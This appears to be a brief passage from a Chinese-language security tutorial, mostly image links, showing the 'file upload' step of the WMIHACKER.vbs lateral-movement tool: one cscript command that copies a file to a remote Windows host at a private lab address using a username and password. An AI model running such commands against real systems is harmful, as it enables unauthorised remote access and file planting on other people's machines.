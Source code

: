 [![](assets/1710211848-5b89c718cdd671af020af110aabe72c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308134954-b04f7ee0-dd0f-1.png)

文件上传

```bash
cscript WMIHACKER.vbs /upload 192.168.3.157 micle "admin" "1.txt" "c:\hello.txt"
```

[![](assets/1710211848-0ec9141ec74bbca8c88a9b8984798c55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308134959-b34a35e0-dd0f-1.png)
